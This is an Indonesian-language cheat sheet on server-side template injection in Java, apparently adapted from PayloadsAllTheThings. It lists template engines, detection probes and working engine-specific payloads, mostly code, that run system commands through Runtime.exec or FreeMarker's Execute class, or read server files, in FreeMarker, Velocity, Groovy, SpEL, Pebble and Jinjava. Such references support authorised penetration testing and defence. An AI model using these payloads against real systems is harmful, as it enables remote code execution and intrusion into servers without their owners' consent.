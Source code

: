 # Server Side Template Injection - Java

> **Server-Side Template Injection (SSTI)** adalah kerentanan keamanan di mana input pengguna dimasukkan ke dalam template di sisi server tanpa validasi yang benar, sehingga penyerang dapat mengeksekusi kode arbitrer. Pada Java, SSTI bisa terjadi pada engine seperti JSP, Thymeleaf, FreeMarker, Velocity, Pebble, dan lainnya.

## Ringkasan

- [Library Template Populer](#library-template-populer)
- [Payload Dasar](#payload-dasar)
- [Payload Spesifik Engine](#payload-spesifik-engine)
- [Referensi](#referensi)

## Library Template Populer

| Nama Template | Format Payload      | Bahasa Pemrograman |
| ------------- | ------------------- | ------------------ |
| JSP           | `<%= ... %>`        | Java               |
| FreeMarker    | `${3*3}` / `#{3*3}` | Java               |
| Groovy        | `${9*9}`            | Java               |
| Jinjava       | `{{ }}`             | Java               |
| Pebble        | `{{ }}`             | Java               |
| Spring SpEL   | `${7*7}` / `*{7*7}` | Java               |
| Thymeleaf     | `[[ ... ]]`         | Java               |
| Velocity      | `#set($x="") $x`    | Java               |

## Payload Dasar

Coba payload berikut pada input yang dicurigai:

```java
${7*7}
#{7*7}
*{7*7}
[[7*7]]
<%= 7*7 %>
```

Jika output menjadi `49`, kemungkinan aplikasi rentan SSTI.

## Payload Spesifik Engine

### FreeMarker

- **Eksekusi kode sederhana:**
  ```java
  ${3*3}
  ```
- **Baca file:**
  ```java
  ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_file').toURL().openStream().readAllBytes()?join(" ")}
  ```
- **Eksekusi perintah:**
  ```java
  ${"freemarker.template.utility.Execute"?new()("id")}
  ```

### Velocity

- **Eksekusi perintah:**
  ```java
  #set($e="".getClass().forName("java.lang.Runtime").getRuntime().exec("id"))
  ```

### Groovy

- **Eksekusi perintah:**
  ```groovy
  ${"id".execute()}
  ```

### Spring Expression Language (SpEL)

- **Eksekusi perintah:**
  ```java
  ${T(java.lang.Runtime).getRuntime().exec('id')}
  ```

### Pebble

- **Eksekusi perintah (versi lama):**
  ```java
  {{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('id') }}
  ```

### Jinjava

- **Eksekusi kode:**
  ```python
  {{ 'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("java.lang.Runtime.getRuntime().exec('id')") }}
  ```

## Tips

- Selalu cek output aplikasi setelah mengirim payload.
- Gunakan variasi payload jika satu format tidak berhasil.
- Setelah engine teridentifikasi, cari dokumentasi exploitasi engine tersebut.
- Gunakan payload hanya di lingkungan yang aman dan dengan izin yang sesuai.

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
